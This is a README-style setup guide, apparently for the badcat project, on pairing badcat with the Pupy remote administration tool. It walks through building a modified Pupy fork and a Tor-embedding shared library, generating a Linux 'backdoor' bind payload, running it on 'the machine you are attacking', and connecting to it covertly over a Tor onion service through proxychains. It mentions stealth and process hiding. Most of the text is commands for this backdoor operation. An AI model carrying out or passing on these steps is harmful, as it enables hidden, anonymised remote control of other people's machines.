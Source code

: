 # Pupy

Badcat is a reasonably good tool, but one generally needs to perform many actions through a backdoor, then using badcat as-is will eventually get you into issues. For instance, one needs to perform an upload or download of files, badcat can't help you with that.

I decided to integrate badcat functionality with some existing RAT (Remote Administration Tool).

I chose pupy, among other reasons, because I failed to make it work with others (Poshc2) and because it seemed to fit better than the alternatives, like good coding design, modularity, awesome hidding techniques - something badcat lacks.

# Common Concerns

_What works for now?_

**R: Linux only. Every RPC related stuff from Pupy works out of the box. Pupy process hidding is broken for now, so when you run the program it keeps in the foreground - this details matters when you want to be stealth, but for now just ignore it.**

_Will it work on my machine?_

**R: Probably not, unless you have docker or podman. For a bunch of reasons I will ignore here, it just works in a specific environment. Thus the POC status. So if one wants to run it, the environment must be prepared.**

_I don't care about how everything works, can't I just test it out?_

**R: Of course you can. Follow this [steps](). Although I always recommend to take a look to understand what is going on under the hood.**

_Will badcat work with any other RAT?_

**R: Probably, yes. By now it would require advanced skills and lots of time for debugging, as it was to integrate with Pupy. To measure, it took me around a month for a proof of concept.**

_Now, will badcat support any other RAT?_

**R: Probably, not. I'll try my best to fully support at least one RAT of my choice, for now Pupy. If one wants support for other RATs, one should either ask support from RAT's developers or try to write the integration code by your own. The whole community would thank you for that.**

_I hate your integration design choices, can I help you?_

**R: Why haven't you told me before? Of course you can. Fill up an Issue or send a Pull Request. I'm terrible at coding and do not know how it worked, it just works.**

# Integration

## Steps

### 1. Clone Pupy

The official Pupy project can not run badcat without modification in the Linux client source code. So I fork the official project and make the necessary changes. My fork is [here](https://github.com/yanmarques/pupy), I recommend you to check the latest commits to see what are such modifications.

That being said, clone the project recursively (as stated [here](https://github.com/n1nj4sec/pupy/wiki/Installation#pupy-setup)).

```bash
git clone --recursive https://github.com/yanmarques/pupy.git
```

### 2. Build The Container Image

Unfortunately, again, the official Pupy container image has a different `libc` version than the machine I used to build badcat integration code. Either I build badcat integration code in another machine or container, or re-create Pupy official container with the required `libc` version. I chose the later because I would have more control over the environment.

Then, build the image from my Dockerfile:

```bash
cd ./pupy/
docker build -t pupy-local -f ./client/Dockerfile . 
```

### 3. Install Pupy Python 2.7 Deps

Pupy relies on Python 2.7 yet, so one must have such package installed. In order to install dependencies, ensure Pip is installed for your Python 2.7. One can install Pip with:

```bash
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python2 get-pip.py
```

Then install `swig`, required to build some Python dependency:

```bash
dnf install -y swig
```

Finally install Python dependencies:

```bash
cd ./pupy/pupy
python2 -m pip install -r requirements.txt
```

### 4. Build Badcat's Pupy Integration

First, follow badcat toolchain installation [here](https://github.com/yanmarques/badcat/tree/dev#getting-started) if you have not installed before. Then make sure you are at the `dev` branch and fully updated:

```bash
git checkout dev
git pull
```

Before building the integration code, think about your objectives. By default (at [this](https://github.com/yanmarques/badcat/blob/102452990e4364f67f4ecd17b1c4f802057f62c2/test-pupy/src/lib.rs#L98) line of code), badcat integration will start Tor with Tor's default `DataDirectory` and the `HiddenServiceDir` set to `hidden-service` directory. Modify the parameters to fit your desires.

Then build it:

```bash
cargo build --release -p test-pupy
```

An ELF shared library will be generated at `./target/release/libbadcat_pupy.so`, check the following:

```bash
$ file ./target/release/libbadcat_pupy.so 
./target/release/libbadcat_pupy.so: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, BuildID[sha1]=44e952dde4ea235d5683a8289ef4d39da0097e5c, with debug_info, not stripped
```

This ELF shared library file is extremely important, it holds Tor and badcat code. Such file must be copied to two places:

1. The directory where Pupy will be built. As you may already know, Pupy first build the executable (elf, exe, apk, etc) with a dummy string to be replaced with actual Python code later. This such build will be our next step.
2. Where you will run the resulting executable. As you may already know, the executable needs the shared library to run, remember this is a POC, ideally it should not need to carry the shared library to everywhere you need to run.

Sooo, copy the `libbadcat_pupy.so` shared library to `pupy/client/sources-linux`.

### 5. Build Pupy Linux Executable

In order to generate the required executables, change your current working directory to the top level directory of Pupy project (`pupy`). Then run (if you use docker, just replace `podman` with `docker`):

```bash
podman run --mount type=bind,src=$(pwd),target=/build/workspace/project pupy-local ./client/sources-linux/build-docker.sh
```

It take some time to finish, but as soon as it has finished, one should see a `[+] Build complete` message. If can check the directory `pupy/pupy/payload_templates` for generated executable templates. There is an issue with the generated linux template, that the template name misses a `x64` and one must fix it. To fix it, run the following command:

```bash
cp ./pupy/payload_templates/pupy.lin ./pupy/payload_templates/pupyx64.lin
```

### 6. Build the Pupy Payload

In order to generate the resulting executable with the payload, change your current working directory to the pupy source (`pupy/pupy`). Then enter inside the Pupy shell with the following command:

```bash
python2 pupysh.py
```

You should see something like this:

![Pupy shell screenshot](https://user-images.githubusercontent.com/28604565/148851208-0213fd43-550d-44c9-86ba-f54d3ed174c4.png)

Finally, build the payload:

```bash
>> gen -O linux -A x64 -o backdoor bind --port 8000 -t badcat
```

The resulting executable is at `./pupy/pupy/backdoor`. To fully test Pupy with badcat functionality, you need this `backdoor` executable, the integration shared library and the Pupy shell of course.

### 7. Start a Pupy Session with badcat

First things first, prepare the machine you are attacking. This machine must have some weird libraries installed, with boring versions. So the best way I found was to use the container image, the one created early under the name of `pupy-local`, derived from a Dockerfile I wrote myself.

I started a container with an interactive shell and a mount for accessing the executable (`backdoor`) and the integration shared library (`libbadcat_pupy.so`) using the following command:

```bash
podman run --mount type=bind,src=$(pwd),target=/project -it pupy-local bash
```

Inside the container, access the directory with both files, in my case here is at the mountpoint `/project`. Then run the executable providing the directory where the shared library is located, so it is found in runtime. In my case, the shared library was in the same directory, so a dot (`.`) is used there.

```bash
LD_LIBRARY_PATH=. ./backdoor
```

Once the server is up and running, you need to connect through Tor using Pupy. In order to discover the generated Onion Service hostname, check on your current working directory the contents of the file at `hidden-service/hostname`. For instance, my server is:

```bash
$ cat ./hidden-service/hostname
ithahibo6xgtlieneq5suimjxynpmjbircpf3q54ier5fkfpwiffvxyd.onion
```

The next step is to connect to server using Pupy. First exit the Pupy shell if you are already in. Then install `tor` and `proxychains` if do not have them already. The idea is to have Tor client running and use `proxychains` to force all Pupy shell connections to travel Tor proxy. If you are not certain of how to configure Tor and `proxychains`, check [this](https://itigic.com/use-proxychains-and-tor-on-linux-to-be-anonymous/) article.

Once Tor is running and `proxychains` is configure to use Tor Socks proxy, start Pupy shell and connect to your Onion Service:

```bash
proxychains python2 pupysh.py
>> connect -c ithahibo6xgtlieneq5suimjxynpmjbircpf3q54ier5fkfpwiffvxyd.onion:8000 -t tcp_cleartext
```

Now be patient! 

Generally it take around a minute to start a full session, it depends on your connection, Tor's network latency at the moment and so on. For me it has already took more than five minutes to start a full session. So again, be patient.

Once the full session has started, one may see the following:

![Pupy shell connection from badcat integration](https://user-images.githubusercontent.com/28604565/148860949-71ab11ee-3d91-4342-82c6-ac96d5d75077.png)

